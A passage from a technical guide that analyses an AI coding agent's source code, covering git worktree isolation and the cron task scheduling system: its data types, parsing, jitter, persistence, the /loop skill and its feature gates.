The `EnterWorktreeTool` prompt at `src/tools/EnterWorktreeTool/prompt.ts` provides explicit instructions for the model about when to use worktrees and when not to. The prompt states that the tool should only be used when the user explicitly says "worktree" -- if the user asks to create a branch, switch branches, or work on a different branch, the model should use git commands instead. This prevents the model from spontaneously entering a worktree when the user's intent is better served by a simple branch checkout.

The `ExitWorktreeTool` prompt at `src/tools/ExitWorktreeTool/prompt.ts` reinforces the two-step confirmation model: the tool should not proactively call exit, only when the user asks to leave the worktree. The prompt also clarifies the "keep" vs "remove" semantics: "keep" leaves the worktree and branch on disk for later use, while "remove" deletes both the worktree directory and the associated git branch. The model is instructed to confirm with the user before removing a worktree that has uncommitted changes.

```mermaid
flowchart TD
    A[User requests task in worktree] --> B{User said "worktree"?}
    B -->|Yes| C[EnterWorktreeTool]
    B -->|No| D[Use git commands]
    C --> E[Worktree created, session state updated]
    E --> F[Agent works in isolated branch]
    F --> G{User asks to exit?}
    G -->|Yes, keep| H[ExitWorktreeTool with action="keep"]
    G -->|Yes, remove| I{Uncommitted changes?}
    I -->|No| J[ExitWorktreeTool with action="remove"]
    I -->|Yes| K[Confirm with user, then discard_changes: true]
    G -->|No| F
```

### Sparse checkout support

When `settings.worktree.sparsePaths` is configured, the worktree is created with `--no-checkout` and then sparse-checkout is applied:

```typescript
// src/utils/worktree.ts:L321-L366
const sparsePaths = getInitialSettings().worktree?.sparsePaths
const addArgs = ['worktree', 'add']
if (sparsePaths?.length) {
  addArgs.push('--no-checkout')
}
// -B (not -b): reset any orphan branch left behind by a removed worktree dir.
// Saves a `git branch -D` subprocess (~15ms spawn overhead) on every create.
addArgs.push('-B', worktreeBranch, worktreePath, baseBranch)

const { code: createCode, stderr: createStderr } =
  await execFileNoThrowWithCwd(gitExe(), addArgs, { cwd: repoRoot })
if (createCode !== 0) {
  throw new Error(`Failed to create worktree: ${createStderr}`)
}

if (sparsePaths?.length) {
  // If sparse-checkout or checkout fail after --no-checkout, the worktree
  // is registered and HEAD is set but the working tree is empty. Next run's
  // fast-resume (rev-parse HEAD) would succeed and present a broken worktree
  // as "resumed". Tear it down before propagating the error.
  const tearDown = async (msg: string): Promise<never> => {
    await execFileNoThrowWithCwd(
      gitExe(),
      ['worktree', 'remove', '--force', worktreePath],
      { cwd: repoRoot },
    )
    throw new Error(msg)
  }
  const { code: sparseCode, stderr: sparseErr } =
    await execFileNoThrowWithCwd(
      gitExe(),
      ['sparse-checkout', 'set', '--cone', '--', ...sparsePaths],
      { cwd: worktreePath },
    )
  if (sparseCode !== 0) {
    await tearDown(`Failed to configure sparse-checkout: ${sparseErr}`)
  }
  const { code: coCode, stderr: coErr } = await execFileNoThrowWithCwd(
    gitExe(),
    ['checkout', 'HEAD'],
    { cwd: worktreePath },
  )
  if (coCode !== 0) {
    await tearDown(`Failed to checkout sparse worktree: ${coErr}`)
  }
}
```

If sparse-checkout or the checkout fails after the worktree is registered, the `tearDown` function removes the worktree before propagating the error. Without this, a subsequent fast-resume (which reads `rev-parse HEAD`) would succeed and present a broken worktree as "resumed."

## Where cc diverges from the published pattern

HER Pattern 8 (Fork-Join Parallelism) describes "multiple subagents in isolated git worktrees with cached parent context reuse." cc implements this pattern but adds several safety layers that the pattern does not specify:

1. **Slug validation** -- The pattern does not address path traversal attacks on worktree paths. cc's `validateWorktreeSlug()` at `src/utils/worktree.ts:L66-L87` prevents directory escape through strict character allowlisting and segment-by-segment validation.

2. **Two-step removal confirmation** -- The pattern assumes subagent worktrees are disposable. cc distinguishes between user-created worktrees (which require explicit `discard_changes` confirmation at `src/tools/ExitWorktreeTool/ExitWorktreeTool.ts:L190-L219`) and ephemeral agent worktrees (which are auto-cleaned by `cleanupStaleAgentWorktrees()`).

3. **Hook-based VCS abstraction** -- The pattern assumes git. cc supports a `WorktreeCreate`/`WorktreeRemove` hook pair that allows non-git VCS systems to provide equivalent isolation, making the worktree abstraction VCS-agnostic.

4. **Symlink-based disk optimization** -- The pattern does not address disk bloat from duplicating `node_modules/` across worktrees. cc's `symlinkDirectories()` and `.worktreeinclude` mechanism at `src/utils/worktree.ts:L391-L504` solve this pragmatically.

5. **Sparse checkout** -- The pattern does not address the performance cost of checking out a full repository for a subagent that only needs a few files. cc's `sparsePaths` setting allows worktrees to check out only the directories needed for the task.

## Developer takeaways for building a long-running agent

1. **Use filesystem isolation, not application-level locking.** Git worktrees provide true parallelism without lock contention. Application-level read/write locks (like cc's own tool orchestration, Chapter 12) protect individual file operations but cannot coordinate independent multi-step tasks. Worktrees solve this at the VCS level, and the isolation guarantee comes from git, not from the application.

2. **Validate all user-controlled path segments.** The worktree slug is user-controlled and is joined into filesystem paths. Without strict validation, a malicious slug can escape the intended directory. The `validateWorktreeSlug()` pattern -- allowlist per segment, reject `.`/`..`, enforce length limits -- should be applied to any user-controlled path component in an agent system.

3. **Fail-closed when state is uncertain.** The `countWorktreeChanges()` function returns `null` when git commands fail, and callers treat `null` as "potentially unsafe." This fail-closed approach prevents data loss from false negatives. A `null` return that means "unknown" is safer than a `0/0` return that means "definitely clean" but might be wrong.

4. **Clean up after crashes.** Agent processes can be killed at any time, leaving orphaned worktrees on disk. cc's `cleanupStaleAgentWorktrees()` at `src/utils/worktree.ts:L1058-L1136` uses exact-shape patterns to identify ephemeral worktrees without accidentally deleting user-named ones. Any long-running agent system needs equivalent crash-recovery logic.

5. **Propagate configuration to isolated environments.** A worktree that lacks `settings.local.json`, git hooks, or gitignored config files is a broken environment. cc's `performPostCreationSetup()` copies settings, configures hooks, symlinks directories, and copies `.worktreeinclude` files. Any isolation mechanism must propagate the configuration that the agent's code depends on.
# Cron, Schedule, Loop, and Wakeup

## Overview

The cron scheduling system is cc's mechanism for recurring and one-shot delayed task execution within a running agent session. It comprises three tools (`CronCreate`, `CronDelete`, `CronList`), a cron expression parser, a task persistence layer, and a scheduler that enqueues prompts when the REPL is idle. The system also underpins the `/loop` skill, which lets users set up self-pacing iterative workflows. This chapter traces the full lifecycle from cron expression parsing through jitter-gated fire scheduling to durable persistence across session restarts.

The cron system embodies two HER principles simultaneously: the One-Task-Per-Session rule (Section 10.1) and the METR task-sizing research (Section 10.2). By allowing the agent to schedule future work without blocking the current query, cron tasks decompose long-running work into right-sized chunks (the 15-30 minute sweet spot identified by METR) while maintaining the one-task-per-session discipline. The METR research found that AI task duration doubles every ~7 months (accelerated to ~4.3 months per the January 2026 update), but that 95% per-step reliability yields only 36% success over 20 steps. Right-sizing tasks through scheduled decomposition directly addresses this compound-failure math.

## Data structures and contracts

### CronTask type

The `CronTask` type is the central data structure, stored in `.claude/scheduled_tasks.json` for durable tasks or held in process memory for session-only tasks:

```typescript
// src/utils/cronTasks.ts:L30-L70
export type CronTask = {
  id: string
  /** 5-field cron string (local time) — validated on write, re-validated on read. */
  cron: string
  /** Prompt to enqueue when the task fires. */
  prompt: string
  /** Epoch ms when the task was created. Anchor for missed-task detection. */
  createdAt: number
  /**
   * Epoch ms of the most recent fire. Written back by the scheduler after
   * each recurring fire so next-fire computation survives process restarts.
   * The scheduler anchors first-sight from `lastFiredAt ?? createdAt` — a
   * never-fired task uses createdAt (correct for pinned crons like
   * `30 14 27 2 *` whose next-from-now is next year); a fired-before task
   * reconstructs the same `nextFireAt` the prior process had in memory.
   * Never set for one-shots (they're deleted on fire).
   */
  lastFiredAt?: number
  /** When true, the task reschedules after firing instead of being deleted. */
  recurring?: boolean
  /**
   * When true, the task is exempt from recurringMaxAgeMs auto-expiry.
   * System escape hatch for assistant mode's built-in tasks (catch-up/
   * morning-checkin/dream) — the installer's writeIfMissing() skips existing
   * files so re-install can't recreate them. Not settable via CronCreateTool;
   * only written directly to scheduled_tasks.json by src/assistant/install.ts.
   */
  permanent?: boolean
  /**
   * Runtime-only flag. false → session-scoped (never written to disk).
   * File-backed tasks leave this undefined; writeCronTasks strips it so
   * the on-disk shape stays { id, cron, prompt, createdAt, lastFiredAt?, recurring?, permanent? }.
   */
  durable?: boolean
  /**
   * Runtime-only. When set, the task was created by an in-process teammate.
   * The scheduler routes fires to that teammate's queue instead of the main
   * REPL's. Never written to disk (teammate crons are always session-only).
   */
  agentId?: string
}
```

Key fields and their design rationale:
- `lastFiredAt`: Written back by the scheduler after each recurring fire. This field enables correct next-fire computation across process restarts -- a never-fired task uses `createdAt` as the anchor (correct for pinned crons like `30 14 27 2 *` whose next-from-now is next year), while a previously-fired task reconstructs the same `nextFireAt` the prior process had in memory. Never set for one-shots since they are deleted on fire.
- `permanent`: An escape hatch for assistant mode's built-in tasks (catch-up, morning-checkin, dream). These tasks never auto-expire and cannot be recreated if deleted (because `install.ts`'s `writeIfMissing()` skips existing files). Not settable via `CronCreateTool`; only written directly to `scheduled_tasks.json` by `src/assistant/install.ts`.
- `durable`: A runtime-only flag. When `false`, the task is session-scoped and never written to disk. File-backed tasks leave this `undefined`.
- `agentId`: When set, the task was created by an in-process teammate. The scheduler routes fires to that teammate's queue instead of the main REPL. Never written to disk since teammate crons are always session-only.

```mermaid
classDiagram
    class CronTask {
        +string id
        +string cron
        +string prompt
        +number createdAt
        +number lastFiredAt
        +boolean recurring
        +boolean permanent
        +boolean durable
        +string agentId
    }
    class CronJitterConfig {
        +number recurringFrac
        +number recurringCapMs
        +number oneShotMaxMs
        +number oneShotFloorMs
        +number oneShotMinuteMod
        +number recurringMaxAgeMs
    }
    class CronFields {
        +number[] minute
        +number[] hour
        +number[] dayOfMonth
        +number[] month
        +number[] dayOfWeek
    }
    CronTask --> CronJitterConfig : tuned by
    CronTask --> CronFields : parsed into
```

### CronFields type

The `CronFields` type represents a parsed cron expression as five sorted number arrays:

```typescript
// src/utils/cron.ts:L10-L16
export type CronFields = {
  minute: number[]
  hour: number[]
  dayOfMonth: number[]
  month: number[]
  dayOfWeek: number[]
}
```

Each array contains the explicit set of matching values for that field. For example, `0 9 * * 1-5` parses to `{ minute: [0], hour: [9], dayOfMonth: [1..31], month: [1..12], dayOfWeek: [1,2,3,4,5] }`. The explicit-set representation makes matching fast (O(1) via `Set` lookup) at the cost of slightly higher memory usage for wildcard fields.

### CronJitterConfig type

The jitter configuration controls thundering-herd prevention, with runtime tuning knobs sourced from GrowthBook:

```typescript
// src/utils/cronTasks.ts:L315-L346
export type CronJitterConfig = {
  /** Recurring-task forward delay as a fraction of the interval between fires. */
  recurringFrac: number
  /** Upper bound on recurring forward delay regardless of interval length. */
  recurringCapMs: number
  /** One-shot backward lead: maximum ms a task may fire early. */
  oneShotMaxMs: number
  /**
   * One-shot backward lead: minimum ms a task fires early when the minute-mod
   * gate matches. 0 = taskIds hashing near zero fire on the exact mark. Raise
   * this to guarantee nobody lands on the wall-clock boundary.
   */
  oneShotFloorMs: number
  /**
   * Jitter fires landing on minutes where `minute % N === 0`. 30 → :00/:30
   * (the human-rounding hotspots). 15 → :00/:15/:30/:45. 1 → every minute.
   */
  oneShotMinuteMod: number
  /**
   * Recurring tasks auto-expire this many ms after creation (unless marked
   * `permanent`).
   */
  recurringMaxAgeMs: number
}
```

Default values:

```typescript
// src/utils/cronTasks.ts:L348-L355
export const DEFAULT_CRON_JITTER_CONFIG: CronJitterConfig = {
  recurringFrac: 0.1,
  recurringCapMs: 15 * 60 * 1000,
  oneShotMaxMs: 90 * 1000,
  oneShotFloorMs: 0,
  oneShotMinuteMod: 30,
  recurringMaxAgeMs: 7 * 24 * 60 * 60 * 1000,
}
```

The `recurringMaxAgeMs` of 7 days bounds session lifetime: recurring tasks auto-expire after one week unless marked `permanent`. This prevents unbounded recurrence from compounding heap leaks in long-running sessions (p99 uptime is 53 hours post-#19931). The `recurringFrac` of 0.1 means an hourly task spreads across `[:00, :06)`, while a per-minute task only spreads by a few seconds.

## Control flow

### Cron expression parsing

The `parseCronExpression()` function supports the standard 5-field cron subset with wildcards, steps, ranges, and lists:

```typescript
// src/utils/cron.ts:L83-L101
export function parseCronExpression(expr: string): CronFields | null {
  const parts = expr.trim().split(/\s+/)
  if (parts.length !== 5) return null

  const expanded: number[][] = []
  for (let i = 0; i < 5; i++) {
    const result = expandField(parts[i]!, FIELD_RANGES[i]!)
    if (!result) return null
    expanded.push(result)
  }

  return {
    minute: expanded[0]!,
    hour: expanded[1]!,
    dayOfMonth: expanded[2]!,
    month: expanded[3]!,
    dayOfWeek: expanded[4]!,
  }
}
```

The parser does not support `L`, `W`, `?`, or name aliases (like `MON` or `JAN`). All times are interpreted in the process's local timezone -- `0 9 * * *` means 9am wherever the CLI is running, with no timezone conversion needed. The `expandField()` function at `src/utils/cron.ts:L31-L77` handles three syntax forms: wildcard/step (`*/5`), range (`1-5`), and single values (`3`), plus comma-separated lists of any combination. The day-of-week field accepts `7` as a Sunday alias (mapped to `0`) to match vixie-cron behavior.

### Next-run computation

The `computeNextCronRun()` function walks forward minute-by-minute from a given timestamp, bounded at 366 days. It uses smart jumping: when the month does not match, it jumps to the start of the next month rather than iterating day-by-day. Similarly, when the day does not match, it jumps to the next day. The day-of-month/day-of-week matching follows standard cron OR semantics: when both fields are constrained (neither is the full range), a date matches if either matches. DST transitions are handled naturally by the minute-walk algorithm.

```typescript
// src/utils/cron.ts:L119-L165
export function computeNextCronRun(
  fields: CronFields,
  from: Date,
): Date | null {
  const minuteSet = new Set(fields.minute)
  const hourSet = new Set(fields.hour)
  const domSet = new Set(fields.dayOfMonth)
  const monthSet = new Set(fields.month)
  const dowSet = new Set(fields.dayOfWeek)

  // Is the field wildcarded (full range)?
  const domWild = fields.dayOfMonth.length === 31
  const dowWild = fields.dayOfWeek.length === 7

  // Round up to the next whole minute (strictly after `from`)
  const t = new Date(from.getTime())
  t.setSeconds(0, 0)
  t.setMinutes(t.getMinutes() + 1)

  const maxIter = 366 * 24 * 60
  for (let i = 0; i < maxIter; i++) {
    const month = t.getMonth() + 1
    if (!monthSet.has(month)) {
      // Jump to start of next month
      t.setMonth(t.getMonth() + 1, 1)
      t.setHours(0, 0, 0, 0)
      continue
    }

    const dom = t.getDate()
    const dow = t.getDay()
    // When both dom/dow are constrained, either match is sufficient (OR semantics)
    const dayMatches =
      domWild && dowWild
        ? true
        : domWild
          ? dowSet.has(dow)
          : dowWild
            ? domSet.has(dom)
            : domSet.has(dom) || dowSet.has(dow)

    if (!dayMatches) {
      // Jump to start of next day
      t.setDate(t.getDate() + 1)
      t.setHours(0, 0, 0, 0)
      continue
    }

    if (!hourSet.has(t.getHours())) {
      t.setHours(t.getHours() + 1, 0, 0, 0)
      continue
    }

    if (!minuteSet.has(t.getMinutes())) {
      t.setMinutes(t.getMinutes() + 1)
      continue
    }

    return t
  }

  return null
}
```

### Jitter for thundering-herd prevention

The cron system applies deterministic per-task jitter to prevent a thundering herd when many sessions schedule the same cron string. For recurring tasks, jitter delays the fire forward:

```typescript
// src/utils/cronTasks.ts:L381-L398
export function jitteredNextCronRunMs(
  cron: string,
  fromMs: number,
  taskId: string,
  cfg: CronJitterConfig = DEFAULT_CRON_JITTER_CONFIG,
): number | null {
  const t1 = nextCronRunMs(cron, fromMs)
  if (t1 === null) return null
  const t2 = nextCronRunMs(cron, t1)
  // No second match in the next year (e.g. pinned date) → nothing to
  // proportion against, and near-certainly not a herd risk. Fire on t1.
  if (t2 === null) return t1
  const jitter = Math.min(
    jitterFrac(taskId) * cfg.recurringFrac * (t2 - t1),
    cfg.recurringCapMs,
  )
  return t1 + jitter
}
```

The jitter fraction is derived from the task ID (an 8-hex-char UUID slice), so it is deterministic across restarts -- the same task always fires at the same offset within its jitter window. The `jitterFrac()` function at `src/utils/cronTasks.ts:L362-L365` parses the first 8 hex chars as a u32 and divides by 2^32 to produce a value in [0, 1). At defaults, an hourly task spreads across `[:00, :06)`, while a per-minute task only spreads by a few seconds (0.1 * 60s = 6s max).

For one-shot tasks, jitter fires early rather than late, because delaying a user-pinned reminder ("remind me at 3pm") would break the contract:

```typescript
// src/utils/cronTasks.ts:L421-L445
export function oneShotJitteredNextCronRunMs(
  cron: string,
  fromMs: number,
  taskId: string,
  cfg: CronJitterConfig = DEFAULT_CRON_JITTER_CONFIG,
): number | null {
  const t1 = nextCronRunMs(cron, fromMs)
  if (t1 === null) return null
  // Cron resolution is 1 minute → computed times always have :00 seconds,
  // so a minute-field check is sufficient to identify the hot marks.
  if (new Date(t1).getMinutes() % cfg.oneShotMinuteMod !== 0) return t1
  // floor + frac * (max - floor) → uniform over [floor, max). With floor=0
  // this reduces to the original frac * max. With floor>0, even a taskId
  // hashing to 0 gets `floor` ms of lead — nobody fires on the exact mark.
  const lead =
    cfg.oneShotFloorMs +
    jitterFrac(taskId) * (cfg.oneShotMaxMs - cfg.oneShotFloorMs)
  // t1 > fromMs is guaranteed by nextCronRunMs (strictly after), so the
  // max() only bites when the task was created inside its own lead window.
  return Math.max(t1 - lead, fromMs)
}
```

At defaults (`oneShotMinuteMod: 30`), only `:00` and `:30` get jitter -- the human-rounding hotspots. The `oneShotFloorMs` parameter (default 0) can be raised during incidents to guarantee that nobody fires on the exact wall-clock mark. The `Math.max(t1 - lead, fromMs)` clamp prevents a task from firing before it was created, which could happen if the task was scheduled inside its own jitter window.

```mermaid
sequenceDiagram
    participant Scheduler
    participant CronTasks
    participant REPL
    participant Model
    Scheduler->>CronTasks: Check next fire times
    CronTasks-->>Scheduler: Return jittered nextFireAt
    Scheduler->>Scheduler: Wait until fire time
    Scheduler->>REPL: Is REPL idle?
    alt REPL is idle
        REPL-->>Scheduler: Yes
        Scheduler->>Model: Enqueue prompt
        Model->>Model: Process prompt
    else REPL is busy
        REPL-->>Scheduler: No
        Scheduler->>Scheduler: Retry next tick
    end
```

### CronCreate validation and execution

The `CronCreateTool` validates the cron expression, checks the 50-job maximum, and prevents teammate durable crons:

```typescript
// src/tools/ScheduleCronTool/CronCreateTool.ts:L82-L116
async validateInput(input): Promise<ValidationResult> {
  if (!parseCronExpression(input.cron)) {
    return {
      result: false,
      message: `Invalid cron expression '${input.cron}'. Expected 5 fields: M H DoM Mon DoW.`,
      errorCode: 1,
    }
  }
  if (nextCronRunMs(input.cron, Date.now()) === null) {
    return {
      result: false,
      message: `Cron expression '${input.cron}' does not match any calendar date in the next year.`,
      errorCode: 2,
    }
  }
  const tasks = await listAllCronTasks()
  if (tasks.length >= MAX_JOBS) {
    return {
      result: false,
      message: `Too many scheduled jobs (max ${MAX_JOBS}). Cancel one first.`,
      errorCode: 3,
    }
  }
  // Teammates don't persist across sessions, so a durable teammate cron
  // would orphan on restart (agentId would point to a nonexistent teammate).
  if (input.durable && getTeammateContext()) {
    return {
      result: false,
      message:
        'durable crons are not supported for teammates (teammates do not persist across sessions)',
      errorCode: 4,
    }
  }
  return { result: true }
}
```

The two-stage cron validation is deliberate: `parseCronExpression()` checks syntax, while `nextCronRunMs()` checks that the expression matches at least one calendar date in the next year. A syntactically valid expression like `30 14 30 2 *` (February 30th) would pass parsing but fail the next-run check, since February 30th never occurs.

The teammate durable-cron restriction at `src/tools/ScheduleCronTool/CronCreateTool.ts:L105-L114` exists because teammates do not persist across sessions -- a durable cron owned by a teammate would orphan on restart, with its `agentId` pointing to a nonexistent agent.

### Durable vs session-only persistence

Tasks come in two flavors: durable (persisted to `.claude/scheduled_tasks.json`) and session-only (held in process memory). The `addCronTask()` function routes based on the `durable` flag:

```typescript
// src/utils/cronTasks.ts:L194-L219
export async function addCronTask(
  cron: string,
  prompt: string,
  recurring: boolean,
  durable: boolean,
  agentId?: string,
): Promise<string> {
  // Short ID — 8 hex chars is plenty for MAX_JOBS=50, avoids slice/prefix
  // juggling between the tool layer (shows short IDs) and disk.
  const id = randomUUID().slice(0, 8)
  const task = {
    id,
    cron,
    prompt,
    createdAt: Date.now(),
    ...(recurring ? { recurring: true } : {}),
  }
  if (!durable) {
    addSessionCronTask({ ...task, ...(agentId ? { agentId } : {}) })
    return id
  }
  const tasks = await readCronTasks()
  tasks.push(task)
  await writeCronTasks(tasks)
  return id
}
```

When `durable` is `false`, the task is added to the in-memory session store via `addSessionCronTask()` and never touches the filesystem. The scheduler reads the session store directly on each tick, so session-only tasks still fire on schedule -- they die with the process. The `writeCronTasks()` function at `src/utils/cronTasks.ts:L165-L182` strips the `durable` flag before writing to disk, since everything on disk is durable by definition.

The `removeCronTasks()` function at `src/utils/cronTasks.ts:L231-L248` handles both stores: it first sweeps the in-memory session store, and only falls through to the file read if not every ID was found in memory. This avoids unnecessary filesystem I/O for session-only task deletions.

### Missed-task detection

When cc starts up with existing durable tasks, the scheduler checks whether any tasks were missed while the REPL was closed:

```typescript
// src/utils/cronTasks.ts:L453-L458
export function findMissedTasks(tasks: CronTask[], nowMs: number): CronTask[] {
  return tasks.filter(t => {
    const next = nextCronRunMs(t.cron, t.createdAt)
    return next !== null && next < nowMs
  })
}
```

Missed one-shot tasks are surfaced to the user for catch-up. This handles the scenario where a user schedules "remind me at 2:30pm" and then closes their laptop -- when they restart cc at 3pm, the missed task is presented rather than silently dropped. The tool prompt at `src/tools/ScheduleCronTool/prompt.ts:L84` documents this behavior: "One-shot durable tasks that were missed while the REPL was closed are surfaced for catch-up."

```mermaid
stateDiagram-v2
    [*] --> Created: CronCreate called
    Created --> Validating: Expression parsed
    Validating --> SessionOnly: durable=false
    Validating --> Durable: durable=true
    SessionOnly --> Scheduled: Added to memory store
    Durable --> Scheduled: Written to .claude/scheduled_tasks.json
    Scheduled --> Waiting: Jitter computed
    Waiting --> Firing: REPL is idle, fire time reached
    Firing --> Rescheduling: recurring=true
    Firing --> AutoDeleting: recurring=false
    Rescheduling --> Waiting: nextFireAt computed
    AutoDeleting --> [*]: Task removed
```

### Feature gating

The cron system is gated behind two feature flags. `isKairosCronEnabled()` at `src/tools/ScheduleCronTool/prompt.ts:L36-L45` combines a build-time `feature('AGENT_TRIGGERS')` flag with a runtime `tengu_kairos_cron` GrowthBook gate:

```typescript
// src/tools/ScheduleCronTool/prompt.ts:L36-L45
export function isKairosCronEnabled(): boolean {
  return feature('AGENT_TRIGGERS')
    ? !isEnvTruthy(process.env.CLAUDE_CODE_DISABLE_CRON) &&
        getFeatureValue_CACHED_WITH_REFRESH(
          'tengu_kairos_cron',
          true,
          KAIROS_CRON_REFRESH_MS,
        )
    : false
}
```

The default is `true` because `/loop` is GA (announced in changelog). The GrowthBook gate serves as a fleet-wide kill switch -- flipping it to `false` stops already-running schedulers on their next `isKilled` poll tick, not new ones. `CLAUDE_CODE_DISABLE_CRON` is a local override that wins over GrowthBook.

A narrower gate, `isDurableCronEnabled()` at `src/tools/ScheduleCronTool/prompt.ts:L56-L62`, controls disk-persistent cron separately. Flipping this off forces `durable: false` at the `call()` site, leaving session-only cron (which is GA) untouched.

### Human-readable schedule formatting

The `cronToHuman()` function at `src/utils/cron.ts:L218-L308` converts cron expressions to human-readable strings for display in the tool result and the terminal UI. It handles common patterns (every N minutes, hourly, daily, weekly, weekdays) and falls through to the raw cron string for anything else. The function also supports UTC cron strings (used by CCR remote triggers) with local-time conversion and midnight-crossing logic for the weekday case.

### The /loop skill and autonomous iteration

The `/loop` skill is the primary consumer of the cron system for autonomous iteration. When a user invokes `/loop`, the skill sets up a recurring cron task that re-enqueues the loop prompt on each fire. The loop prompt includes a sentinel value (`<<autonomous-loop-dynamic>>` for dynamic-pacing loops) that the runtime resolves back to the loop's instructions.

The loop mechanism has two pacing modes:

1. **Fixed-interval loops** use `CronCreate` with a regular cron expression (e.g., `*/5 * * * *` for every 5 minutes). The scheduler fires at the jittered cron time, and the prompt is enqueued when the REPL is idle. This mode is straightforward but can waste cache warmth: if the REPL has been idle for 4 minutes and the cron fires at the 5-minute mark, the prompt cache (5-minute TTL) is still warm, but if the REPL was busy and the fire is delayed to 7 minutes, the cache has expired and the full context must be re-processed.

2. **Dynamic-pacing loops** use the `ScheduleWakeup` mechanism, which is distinct from `CronCreate`. The `ScheduleWakeup` function at the API level takes a `delaySeconds` parameter (clamped to [60, 3600]) and a `prompt` to enqueue when the delay expires. Unlike `CronCreate`, `ScheduleWakeup` does not use a cron expression -- it uses a relative delay from the current time. This allows the loop to adjust its pace based on the task's progress: active work gets shorter delays (60-270 seconds to stay within the 5-minute prompt cache window), while idle ticks get longer delays (1200-1800 seconds to avoid burning cache unnecessarily).

The cache-awareness of `ScheduleWakeup` is a critical optimization. The Anthropic prompt cache has a 5-minute TTL. Sleeping past 300 seconds means the next wake-up reads the full conversation context uncached, which is slower and more expensive. The natural breakpoints are: under 5 minutes (cache stays warm, right for active work), and 5 minutes to 1 hour (pay the cache miss, right when there is no point checking sooner). The `ScheduleWakeup` documentation explicitly warns against the 300-second mark, which is the worst of both worlds: you pay the cache miss without amortizing it.

### The CronDelete and CronList tools

The `CronDeleteTool` at `src/tools/ScheduleCronTool/CronDeleteTool.ts` removes a cron task by ID. It validates that the task exists and enforces teammate-scoped deletion: teammates can only delete their own crons, while the team lead can delete any cron. The `call()` method at `src/tools/ScheduleCronTool/CronDeleteTool.ts:L82-L85` delegates to `removeCronTasks()`:

```typescript
// src/tools/ScheduleCronTool/CronDeleteTool.ts:L82-L85
async call({ id }) {
  await removeCronTasks([id])
  return { data: { id } }
}
```

The validation logic at `src/tools/ScheduleCronTool/CronDeleteTool.ts:L61-L80` checks for task existence and teammate ownership before the call proceeds:

```typescript
// src/tools/ScheduleCronTool/CronDeleteTool.ts:L61-L80
async validateInput(input): Promise<ValidationResult> {
  const tasks = await listAllCronTasks()
  const task = tasks.find(t => t.id === input.id)
  if (!task) {
    return {
      result: false,
      message: `No scheduled job with id '${input.id}'`,
      errorCode: 1,
    }
  }
  // Teammates may only delete their own crons.
  const ctx = getTeammateContext()
  if (ctx && task.agentId !== ctx.agentId) {
    return {
      result: false,
      message: `Cannot delete cron job '${input.id}': owned by another agent`,
      errorCode: 2,
    }
  }
  return { result: true }
}
```

The `removeCronTasks()` function at `src/utils/cronTasks.ts:L231-L248` first sweeps the in-memory session store. If the task is found there, it is removed without any filesystem I/O. If the task is not found in memory, the function falls through to the durable store on disk. This two-tier lookup ensures that session-only tasks are deleted efficiently and that durable tasks are properly persisted after removal.

The `CronListTool` at `src/tools/ScheduleCronTool/CronListTool.ts` lists all cron tasks visible to the current context. The `call()` method at `src/tools/ScheduleCronTool/CronListTool.ts:L63-L79` filters by teammate context: teammates only see crons with a matching `agentId`, while the team lead sees all:

```typescript
// src/tools/ScheduleCronTool/CronListTool.ts:L63-L69
async call() {
  const allTasks = await listAllCronTasks()
  // Teammates only see their own crons; team lead (no ctx) sees all.
  const ctx = getTeammateContext()
  const tasks = ctx
    ? allTasks.filter(t => t.agentId === ctx.agentId)
    : allTasks
  // ...
}
```

The list output includes the task ID, cron expression, human-readable schedule, prompt, recurring flag, and durable flag for each task.

### Scheduler internals and REPL idle detection

The scheduler loop runs on a periodic tick (driven by `setInterval` in the main process). On each tick, it checks whether any cron task's jittered next-fire time has been reached. If so, it checks whether the REPL is idle (no active model query in progress). If the REPL is idle, the task's prompt is enqueued for the model. If the REPL is busy, the scheduler skips the fire and retries on the next tick.

The REPL idle check is critical for preventing prompt injection during an active query. Without it, a cron task could fire while the model is mid-response, injecting a new prompt that disrupts the current output. The idle check ensures that cron prompts are only enqueued when the model is ready to receive them, maintaining the one-task-per-session discipline.

For recurring tasks, the scheduler writes back `lastFiredAt` after each successful fire via `markCronTasksFired()` at `src/utils/cronTasks.ts:L261-L278`. This function batches multiple fires in one scheduler tick into a single read-modify-write. The `lastFiredAt` field enables correct next-fire computation across process restarts -- a previously-fired task reconstructs the same `nextFireAt` the prior process had in memory, rather than computing from `createdAt` (which could produce a different result for pinned crons like `30 14 27 2 *` whose next-from-now is next year).

### The CronCreateTool prompt and UX guidance

The `CronCreateTool` prompt at `src/tools/ScheduleCronTool/prompt.ts:L74-L121` provides extensive guidance to the model about when and how to schedule cron tasks. The prompt includes several key instructions:

1. **Avoid the :00 and :30 marks when the task allows it.** Every user who asks for "9am" gets `0 9` in the cron expression, and every user who asks for "hourly" gets `0 *`. These minute marks create thundering-herd conditions across the fleet. When the user's request is approximate, the prompt instructs the model to pick a minute that is NOT 0 or 30 (e.g., `57 8 * * *` for "around 9am" or `7 * * * *` for "hourly"). This small shift significantly reduces fleet-wide API load.

2. **Only use minute 0 or 30 when the user names that exact time.** If the user says "at 9:00 sharp" or "at half past," the model should honor the exact time. The distinction between "around 9" and "9:00 sharp" is deliberate -- the former allows jitter-friendly scheduling, while the latter requires precise execution.

3. **Durable tasks require explicit user intent.** The prompt instructs the model that most tasks should be session-only (`durable: false`). The `durable: true` flag should only be used when the user explicitly asks for the task to persist across sessions (e.g., "keep doing this every day" or "set this up permanently"). This guidance prevents the model from creating durable tasks for transient requests.

4. **The 7-day recurring limit.** The prompt informs the model about the auto-expiry behavior: recurring tasks auto-expire after 7 days unless marked `permanent`. When scheduling recurring jobs, the model should inform the user about this limit so they are not surprised when a scheduled task stops firing after a week.

The `CronDeleteTool` prompt at `src/tools/ScheduleCronTool/prompt.ts:L124-L128` is much shorter: it describes the tool as canceling a previously scheduled job and notes that it removes the job from the durable file or the in-memory session store. The `CronListTool` has no special prompt instructions -- it returns the list of visible tasks.

## Edge cases and failure modes

### Spring-forward DST gaps

The minute-walk algorithm in `computeNextCronRun()` naturally handles DST transitions. A cron targeting a spring-forward gap (e.g., `30 2 * * *` in a US timezone where 2am jumps to 3am) skips the transition day -- the gap hour never appears in local time, so the hour-set check fails and the loop moves on. Wildcard-hour crons (`30 * * * *`) fire at the first valid minute after the gap. Fall-back repeats fire once (the step-forward logic jumps past the second occurrence). This matches vixie-cron behavior.

### Recurring auto-expiry bounds session lifetime

